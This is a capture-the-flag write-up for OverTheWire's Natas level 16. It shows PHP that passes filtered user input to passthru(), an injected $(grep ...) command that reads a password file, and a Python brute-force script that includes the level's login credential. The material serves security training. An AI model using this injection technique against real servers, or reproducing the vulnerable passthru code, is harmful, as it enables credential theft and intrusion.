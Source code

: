 ```yaml
---
layout: post
title:  "Natas Level 16"
date:   2015-10-01 10:36
categories: natas wargame web overthewire
author: Nate
---
```

![natas16](/images/natas16.png)

Natas 16 is a more secure version of Natas 9 and 10.  In this challenge, the server-side code the challenge author provides us allows a passthru but filters on most characters in bash that would allow us to do much at all.  Take a look at the source code the challenge author provides us:

{% highlight html %}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
  if(preg_match('/[;|&`\'"]/',$key)) {
    print "Input contains an illegal character!";
  } else {
    passthru("grep -i \"$key\" dictionary.txt");
  }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{% endhighlight %}

If you pay close attention to the preg_match function above, it will return a positive result if any of the following characters are found in the input we provide to the form: &#59; &#124; &amp; &#96; &#39; &quot;

Since the passthru function allows us to execute arbitrary commands on the bash shell, this prevents us from doing many things to include the following: multiple commands, piping output from one command to the other, weak and strong quoting (double and single quotes), boolean/logical AND ( &amp;) and OR ( &124; ) operators.

Since you cannot pass a single or double quote character into the input, this also prevents using character encoding tricks. (base64 or unicode translation)

Although the backtick character ` is filtered, it's alternative format $() is still allowed for command substitution.  If you're not familiar with command substitution, check out the GNU Manual [here](http://www.gnu.org/software/bash/manual/bash.html#Command-Substitution).

This challenge is solved by concatenating the output of an inner grep command with the output of an outer grep command.  If we receive output on the page, we have a negative result.  If we receive no output, we've guessed a correct character in the password and can continue.

The command is as follows:

{% highlight bash %}
grep -i \"$(grep -E ^a.* /etc/natas_webpass/natas17)hacker\" dictionary.txt
{% endhighlight %}

How does this work, you ask? Well lets break this command down into smaller pieces:

1) First, the shell will execute the inner grep command:
{% highlight bash %}
grep -E ^a.* /etc/natas_webpass/natas17
{% endhighlight %}

Here we're telling grep to interpret our pattern as an extended regular expression.  The ^ operator tells grep that we're looking for any passwords that begin with the character(s) that directly follow it. The second argument is the password file we want grep to parse.

2) If grep finds a password that starts with "a", it'll return that value and our inner command will be substituted with the return value.  We know that the string "hacker" is a word in the dictionary.txt file.  If no results are returned from the inner grep command, nothing will be prepended to "hacker".  If the inner grep command finds a positive match, however, the return value will be prepended to "hacker" and the outer grep command will fail to find any results.  This is because there is no word "ahacker" in dictionary.txt.

Thus, a negative or blank result from our outer command indicates there was POSITIVE result on the inner command (which indicates the character we just guessed was correct.)

Armed with this knowledge, we can whip up a quick Python script very similar to our last two challenge levels.  We'll brute force our password by running through every alphanumeric character and appending the character that caused a blank result.  Every time we append a character, we'll break out of the inner loop that iterates over all characters, and begin a new iteration on the outer loop that iterates over passwor length.

Consider the code below:

{% highlight python linenos %}
#!/bin/python
import requests,string

url = "http://natas16.natas.labs.overthewire.org"
auth_username = "natas16"
auth_password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

characters = ''.join([string.ascii_letters,string.digits])

password = []
for i in range(1,34):
    for char in characters:
        uri = "{0}?needle=$(grep -E ^{1}{2}.* /etc/natas_webpass/natas17)hackers".format(url,''.join(password),char)
        r = requests.get(uri, auth=(auth_username,auth_password))
        if 'hackers' not in r.text:
            password.append(char)
            print(''.join(password))
            break
        else: continue
{% endhighlight %}

The outer loop assumes a password length of 34 characters, and the inner loop iterates over every alphanumeric character.  The uri variable is defined as the GET string where the needle is our inner GREP command.  We make the GET request and parse the result text which is the html page source.  If we see "hackers" in the output, we had a positive outer loop result, and thus a negative inner loop result.  We only append characters to our password when the output was blank as I stated earlier.

Once we've written the script, we'll run it and the final character string should be our password for the next challenge level.

![natas16_execution](/images/natas16_execution.png)

That's it.  The final character string at the bottom was in fact the correct password for Natas 17.
